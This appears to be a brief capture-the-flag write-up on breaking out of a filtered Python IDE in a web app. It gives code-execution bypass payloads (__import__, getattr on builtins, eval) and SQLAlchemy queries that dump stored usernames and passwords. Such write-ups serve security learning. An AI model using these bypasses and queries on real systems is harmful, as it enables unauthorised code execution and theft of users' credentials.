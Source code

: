 ## Intro
Web-app with interactive python IDE. Most os-related keywords were blocked.

## Recon
Dump all global variables available to the app
```
raise Exception(globals())
```
Try to bypass filtering
```
os.system('id')
os.popen('whoami').read()
__import__('subprocess').check_output(['id'])
getattr(__builtins__, '__import__')('os').system('id')
eval("__import__('os').system('id')")
```

## SQLAlchemy
In the specific box, the Python app was using SQLAlchemy, from the dump:
```
SQLAlchemy sqlite:////home/app-production/app/instance/database.db
[...]
<function redirect at 0x7f73e14753a0>, 'url_for': <function url_for at 0x7f73e1475310>, 'session': <SecureCookieSession {'_flashes': [('message', 'Registration successful! You can now log in.'), ('message', 'Login successful!')], 'user_id': 3}>
[...]
'User': <class 'app.User'>, 'Code': <class 'app.Code'>
```
I was able to query it using following code:
```
print(User.query.all())
print(str(db.session.query(User).all()))
print([str((u.id, u.username, u.password)) for u in db.session.query(User).all()])
```
Which gave me user passwords :)
